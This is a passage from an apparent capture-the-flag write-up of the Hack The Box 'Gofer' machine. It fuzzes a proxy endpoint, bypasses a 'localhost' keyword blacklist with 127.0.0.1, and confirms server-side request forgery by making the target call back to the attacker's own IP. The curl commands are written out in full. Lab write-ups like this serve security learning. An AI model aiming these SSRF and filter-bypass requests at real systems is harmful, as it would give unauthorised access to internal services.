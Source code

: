 ```bash
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 401
________________________________________________

[Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 344ms]
    * FUZZ: index.php
```

* Using `cURL` to send a POST request to this endpoint, we get the message '*Missing URL parameter*', as can be shown below. This means that we need to send a POST parameter *probably* named `url` with some data in order for this endpoint to work as intended.

```bash
curl -X POST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

### **<strong><font color="DarkKhaki">Interacting with index.php</font></strong>**

At first, I tried placing the `url` parameter in the body of the request and still got the same error and then I tried to pass it in the URL `index.php?url=` and it worked, which is weird because we are sending the requests using POST method and not GET !! <br/>

I tried sending `http://localhost` as a value to the `url` parameter, but apparently the word '`localhost`' is blacklisted. <br/>

```bash
curl -X POST 'http://proxy.gofer.htb/index.php?url=http://localhost'
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: localhost !</body></html>
```

However, sending `127.0.0.1` as a value to the `url` parameter, will workes just fine and will return the HTML source code of the main page at http://gofer.htb: <br/>

```bash
curl -X POST 'http://proxy.gofer.htb/index.php?url=127.0.0.1'
<!DOCTYPE html>   
<html lang="en">

[...snip...]
```

With this in mind, we can safely assume that the `url` parameter is vulnerable to Server-Side Request Forgery vulnerability.

### **<strong><font color="DarkKhaki">SSRF Detection</font></strong>**

To confirm the vulnerability, I started a simple HTTP server using python3 and tried to send a request to my web server and I received the request successfully from the target machine, which confirms the presence of the vulnerability: <br/>

```bash
$ curl -X POST http://proxy.gofer.htb/index.php?url=http://tun0-IP/
```
